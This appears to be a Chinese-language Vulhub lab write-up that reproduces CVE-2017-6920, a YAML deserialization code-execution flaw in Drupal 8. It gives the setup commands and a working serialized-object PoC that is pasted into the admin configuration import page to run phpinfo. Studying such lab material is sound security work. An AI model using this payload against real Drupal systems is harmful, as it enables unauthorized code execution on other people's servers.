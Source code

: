 # Drupal Core 8 PECL YAML 反序列化任意代码执行漏洞 CVE-2017-6920

## 漏洞描述

影响软件：Drupal

方式：反序列化

参考链接：[CVE-2017-6920:Drupal远程代码执行漏洞分析及POC构造](https://paper.seebug.org/334/)

效果：任意代码执行

> PECL：PHP Extension Community Library
>
> YAML：Yet Another Markup Language

## 环境搭建

Vulhub执行如下命令启动 drupal 8.3.0 的环境：

```bash
docker-compose up -d
```

环境启动后，访问 `http://your-ip:8080/` 将会看到drupal的安装页面，一路默认配置下一步安装。因为没有mysql环境，所以安装的时候可以选择sqlite数据库。

![image-20220222191227040](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202221912492.png)

## 漏洞复现

先安装 `yaml` 扩展

```
# 换镜像源，默认带vim编辑器，所以用cat换源，可以换成自己喜欢的源
cat > sources.list << EOF
deb http://mirrors.163.com/debian/ jessie main non-free contrib
deb http://mirrors.163.com/debian/ jessie-updates main non-free contrib
deb http://mirrors.163.com/debian/ jessie-backports main non-free contrib
deb-src http://mirrors.163.com/debian/ jessie main non-free contrib
deb-src http://mirrors.163.com/debian/ jessie-updates main non-free contrib
deb-src http://mirrors.163.com/debian/ jessie-backports main non-free contrib
deb http://mirrors.163.com/debian-security/ jessie/updates main non-free contrib
deb-src http://mirrors.163.com/debian-security/ jessie/updates main non-free contrib
EOF
# 安装依赖
apt update
apt-get -y install gcc make autoconf libc-dev pkg-config
apt-get -y install libyaml-dev
# 安装yaml扩展
pecl install yaml
docker-php-ext-enable yaml.so
# 启用 yaml.decode_php 否则无法复现成功
echo 'yaml.decode_php = 1 = 1'>>/usr/local/etc/php/conf.d/docker-php-ext-yaml.ini
# 退出容器
exit
# 重启容器，CONTAINER换成自己的容器ID
docker restart CONTAINER
```

登录一个管理员账号，访问 `http://[your ip]:8080/admin/config/development/configuration/single/import`

如下图所示，`配置类型` 选择 `简单配置`，`配置名称` 任意填写，`将配置粘贴到此处` 中填写PoC如下：

```
!php/object "O:24:\"GuzzleHttp\\Psr7\\FnStream\":2:{s:33:\"\0GuzzleHttp\\Psr7\\FnStream\0methods\";a:1:{s:5:\"close\";s:7:\"phpinfo\";}s:9:\"_fn_close\";s:7:\"phpinfo\";}"
```

![image-20220222191446025](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202221914100.png)

点击 `导入` 后可以看到漏洞触发成功，弹出 `phpinfo` 页面

![image-20220222191459724](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202221914816.png)

